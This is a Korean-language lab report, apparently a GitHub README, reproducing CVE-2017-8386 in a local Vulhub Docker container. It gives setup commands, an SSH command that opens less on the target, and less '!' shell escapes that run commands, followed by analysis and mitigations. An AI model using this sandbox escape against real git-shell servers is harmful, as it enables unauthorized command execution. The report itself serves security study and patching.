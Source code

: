 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다.  
하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해  
sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론

git clone https://github.com/phith0n/vulhub.git
cd vulhub/git/CVE-2017-8386/

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
docker-compose build
docker-compose up -d
docker ps
	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록

docker exec -it git-shell-cve-2017-8386 /bin/bash
chsh -s /bin/bash git
su git
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
vim ~/.ssh/authorized_keys

### 2.6 추가 패키지 설치
apt update
apt install less -y
apt install man-db -y
	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"
• less 화면 진입 성공
• ! 명령어를 통해 시스템 명령어 실행 가능

### 3.2 명령어 실행 (sandbox 우회)
!id -> 사용자 ID, 그룹 ID 출력
!whoami -> 현재 사용자(git)
!uname -a -> 시스템 커널 정보 출력
!ls /home/git -> git 홈 디렉토리 파일 목록 출력

## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 git-upload-archive --help 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/vulhub
